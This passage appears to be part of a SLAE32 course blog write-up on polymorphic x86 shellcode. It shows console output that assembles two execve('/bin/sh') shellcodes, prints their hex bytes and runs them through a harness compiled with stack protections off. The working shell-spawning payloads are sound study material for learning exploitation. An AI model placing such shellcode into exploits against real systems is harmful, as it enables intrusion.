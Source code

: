 {% highlight console linenos %}
kecebong@ubuntu:~/slae32/assigment/poly$ make target=tiny
[*] Assembling with nasm...
nasm -f elf32 -o tiny.o tiny.nasm

[*] Linking object...
ld -m elf_i386 -o tiny tiny.o

[*] Size of Shellcode:
   text    data     bss     dec     hex filename
     21       0       0      21      15 tiny

[*] Shellcode:
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

[*] Compiling shellcode...
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

#### Polymorphic Shellcode

{% highlight console linenos %}
kecebong@ubuntu:~/slae32/assigment/poly$ echo $$
1972
kecebong@ubuntu:~/slae32/assigment/poly$ make target=tiny-poly 
[*] Assembling with nasm...
nasm -f elf32 -o tiny-poly.o tiny-poly.nasm

[*] Linking object...
ld -m elf_i386 -o tiny-poly tiny-poly.o

[*] Size of Shellcode:
   text    data     bss     dec     hex filename
     20       0       0      20      14 tiny-poly

[*] Shellcode:
"\xeb\x06\x5b\x6a\x0b\x58\xcd\x80\xe8\xf5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

[*] Compiling shellcode...
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode

kecebong@ubuntu:~/slae32/assigment/poly$ make target=tiny-poly run-shellcode
[*] Running shellcode...
./shellcode
Shellcode Length:  20
kecebong@ubuntu:/home/kecebong/slae32/assigment$ echo $$
9988
kecebong@ubuntu:/home/kecebong/slae32/assigment$ exit
exit
kecebong@ubuntu:~/slae32/assigment/poly$ echo $$
1972
{% endhighlight %}

#### Demo